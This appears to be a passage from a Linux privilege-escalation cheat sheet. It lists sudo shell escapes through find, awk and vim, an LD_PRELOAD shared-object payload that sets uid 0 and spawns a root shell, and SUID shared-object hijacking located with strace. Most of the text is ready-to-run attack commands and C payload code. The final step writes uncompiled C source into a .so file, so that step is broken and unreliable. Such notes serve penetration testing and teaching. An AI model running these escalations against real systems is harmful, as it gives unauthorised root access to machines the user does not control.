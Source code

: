### 🔧 SUDO Escalation

#### Sudo Shell Escapes (GTFOBins)
```bash
# Identification: Check for binaries the user can run with NOPASSWD
sudo -l

# === Exploitation: Find the binary on GTFOBins ===
# https://gtfobins.github.io/

# Exploit w/ 'find'
sudo find . -exec /bin/sh \; -quit

# Exploit w/ 'awk'
sudo awk 'BEGIN {system("/bin/sh")}'

# Exploit w/ 'vim'
sudo vim -c ':!/bin/sh'
```

#### Sudo with LD_PRELOAD / LD_LIBRARY_PATH
```bash
# Identification: Check if env_keep preserves LD_PRELOAD or LD_LIBRARY_PATH
sudo -l | grep 'env_keep.*LD_'

# Exploitation (LD_PRELOAD):
# 1. Create malicious shared object file
echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); setuid(0);
    system("/bin/bash -p");
}' > /tmp/preload.c

# 2. Compile the .so file
gcc -fPIC -shared -o /tmp/preload.so /tmp/preload.c

# 3. Run sudo command with preloaded library
sudo LD_PRELOAD=/tmp/preload.so <command_from_sudo-l>
```

### 🔒 File Permissions & Attributes

#### SUID/SGID - Shared Object (.so) Injection
```bash
# Identification: Find custom SUID/SGID binaries
find / -type f -perm -u=s 2>/dev/null

# Use strace to see if it loads non-existent .so files from writable paths
strace /path/to/suid-binary 2>&1 | grep -iE "open.*\.so.*no such file"

# Exploitation:
# 1. Create malicious .so file with discovered name
echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void _init() {
    setgid(0); setuid(0);
    system("/bin/bash -p");
}' > /path/to/writable/dir/hijacked.so
```